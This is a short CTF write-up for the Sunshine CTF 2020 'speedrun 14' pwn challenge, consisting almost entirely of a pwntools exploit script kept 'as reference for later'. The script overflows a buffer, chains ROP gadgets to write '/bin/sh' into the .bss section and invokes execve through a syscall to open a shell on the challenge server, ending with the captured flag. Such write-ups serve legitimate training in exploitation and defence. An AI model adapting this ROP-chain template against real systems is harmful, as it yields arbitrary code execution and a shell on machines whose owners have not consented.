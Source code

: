 ## Sunshine CTF: speedrun 14 [pwn]

#### Just an exploit script to be used as reference for later. Use it when planning to do a ropchain to call execve('/bin/sh'). Find a write (mov reg, reg) register so that you can write '/bin/sh' into the .bss section for easy access as it isn't affected by PIE.

```python
from pwn import *

#:
#p = process('./chall_14')
#binary = ELF('chall_14', checksec = False)
#gdb.attach(p.pid, 'break *main + 63')
p = remote('chal.2020.sunshinectf.org', 30014)
p.sendline('test')

pop_rax = 0x00000000004158f4
pop_rdx = 0x0000000000449b15
pop_rdi = 0x0000000000400696
pop_rsi = 0x0000000000410263
ret = 0x0000000000400416
syscall = 0x000000000040120c
mov_rax_rdx = 0x000000000048d1e1

bss_address = 0x6bb2e0

#: move binsh to bss
exploit = cyclic(104)
exploit += p64(ret)
exploit += p64(pop_rdx)
exploit += p64(0x0068732f6e69622f)
exploit += p64(pop_rax)
exploit += p64(bss_address)
exploit += p64(mov_rax_rdx)

#: setup syscall
exploit += p64(pop_rsi)
exploit += p64(0x0)
exploit += p64(pop_rdx)
exploit += p64(0x0)
exploit += p64(pop_rdi)
exploit += p64(bss_address)
exploit += p64(pop_rax)
exploit += p64(59)
exploit += p64(syscall)
p.sendline(exploit)
p.interactive()

#: sun{hail-to-the-king-c24f18e818fb4986}
```